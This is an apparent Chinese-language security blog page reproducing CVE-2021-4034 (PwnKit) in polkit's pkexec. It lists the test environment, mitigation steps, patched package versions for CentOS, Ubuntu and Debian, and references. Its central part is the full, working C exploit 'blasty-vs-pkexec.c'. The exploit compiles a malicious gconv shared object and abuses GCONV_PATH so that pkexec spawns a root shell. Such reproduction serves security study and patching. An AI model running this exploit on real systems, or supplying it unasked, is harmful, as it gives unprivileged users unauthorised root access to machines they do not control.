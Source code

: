 ```yaml
---
layout: about
category: about
Researchname: Polkit-CVE-2021-4034复现
permalink: /about/polkit-CVE-2021-4034/
author: Bin4xin
toc: true
desc: 「polkit」
---
```


> 2022-01-25，CVE-2021-4034利用详情发布。
> 
> 该漏洞是Qualys研究团队在polkit的pkexec中发现的一个内存损坏漏洞，允许非特权用户获取root权限。

## 影响版本

[不影响版本](#%E4%BF%AE%E5%A4%8D)

### 复现环境

```bash
$ uname -a
Linux ubuntu 5.8.0-55-generic #62~20.04.1-Ubuntu SMP Wed Jun 2 08:55:04 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux

$ pkexec --version
pkexec version 0.105
```

### 结果

![Feb-09-2022-16-01-18.gif](https://image.yjs2635.xyz/images/2022/02/09/Feb-09-2022-16-01-18.gif)
![Feb-09-2022-16-01-18.gif](https://image.yjs2635.xyz/images/2022/02/09/Feb-09-2022-16-01-18.gif)

## EXP[来源](https://haxx.in/files/blasty-vs-pkexec.c)

```cpp
/*
 * blasty-vs-pkexec.c -- by blasty <peter@haxx.in> 
 * ------------------------------------------------
 * PoC for CVE-2021-4034, shout out to Qualys
 *
 * ctf quality exploit
 *
 * bla bla irresponsible disclosure
 *
 * -- blasty // 2022-01-25
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <fcntl.h>

void fatal(char *f) {
    perror(f);
    exit(-1);
}

void compile_so() {
    FILE *f = fopen("payload.c", "wb");
    if (f == NULL) {
        fatal("fopen");
    }

    char so_code[]=
        "#include <stdio.h>\n"
        "#include <stdlib.h>\n"
        "#include <unistd.h>\n"
        "void gconv() {\n"
        "  return;\n"
        "}\n"
        "void gconv_init() {\n"
        "  setuid(0); seteuid(0); setgid(0); setegid(0);\n"
        "  static char *a_argv[] = { \"sh\", NULL };\n"
        "  static char *a_envp[] = { \"PATH=/bin:/usr/bin:/sbin\", NULL };\n"
        "  execve(\"/bin/sh\", a_argv, a_envp);\n"
        "  exit(0);\n"
        "}\n";

    fwrite(so_code, strlen(so_code), 1, f);
    fclose(f);

    system("gcc -o payload.so -shared -fPIC payload.c");
}

int main(int argc, char *argv[]) {
    struct stat st;
    char *a_argv[]={ NULL };
    char *a_envp[]={
        "lol",
        "PATH=GCONV_PATH=.",
        "LC_MESSAGES=en_US.UTF-8",
        "XAUTHORITY=../LOL",
        "GIO_USE_VFS=",
        NULL
    };

    printf("[~] compile helper..\n");
    compile_so();

    if (stat("GCONV_PATH=.", &st) < 0) {
        if(mkdir("GCONV_PATH=.", 0777) < 0) {
            fatal("mkdir");
        }
        int fd = open("GCONV_PATH=./lol", O_CREAT|O_RDWR, 0777); 
        if (fd < 0) {
            fatal("open");
        }
        close(fd);
    }

    if (stat("lol", &st) < 0) {
        if(mkdir("lol", 0777) < 0) {
            fatal("mkdir");
        }
        FILE *fp = fopen("lol/gconv-modules", "wb");
        if(fp == NULL) {
            fatal("fopen");
        }
        fprintf(fp, "module  UTF-8//    INTERNAL    ../payload    2\n");
        fclose(fp);
    }

    printf("[~] maybe get shell now?\n");

    execve("/usr/bin/pkexec", a_argv, a_envp);
}
```

### 修复

```bash
chmod 0755 /usr/bin/pkexec
```
或 升级至不影响版本 
```
========================================================================
CentOS：

CentOS 6：polkit-0.96-11.el6_10.2
CentOS 7：polkit-0.112-26.el7_9.1
CentOS 8.0：polkit-0.115-13.el8_5.1
CentOS 8.2：polkit-0.115-11.el8_2.2
CentOS 8.4：polkit-0.115-11.el8_4.2
========================================================================
Ubuntu：

Ubuntu 14.04 ESM：policykit-1-0.105-4ubuntu3.14.04.6+esm1
Ubuntu 16.04 ESM：policykit-1-0.105-14.1ubuntu0.5+esm1
Ubuntu 18.04 LTS：policykit-1-0.105-20ubuntu0.18.04.6
Ubuntu 20.04 LTS：policykit-1-0.105-26ubuntu1.2
Ubuntu 21.10：policykit-1-0.105-31ubuntu0.1
========================================================================
Debain：

：policykit-1 0.105-18+deb9u2
Debain stretch：policykit-1 0.105-18+deb9u2
Debain buster：policykit-1 0.105-25+deb10u1
Debain bullseye：policykit-1 0.105-31+deb11u1
Debain bookworm,bullseye：policykit-1 0.105-31.1
========================================================================
```

### 参考

- [pwnkit: Local Privilege Escalation in polkit's pkexec (CVE-2021-4034)](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt){:target="_blank"}
- [CVE-2021-4034 pkexec提权漏洞分析](https://saucer-man.com/information_security/876.html#cl-3){:target="_blank"}
- [Linux polkit权限提升漏洞修复方法（CVE-2021-4034）](https://moneyslow.com/linux-polket%E6%9D%83%E9%99%90%E6%8F%90%E5%8D%87%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%B3%95%EF%BC%88cve-2021-4034%EF%BC%89.html){:target="_blank"}

以上。
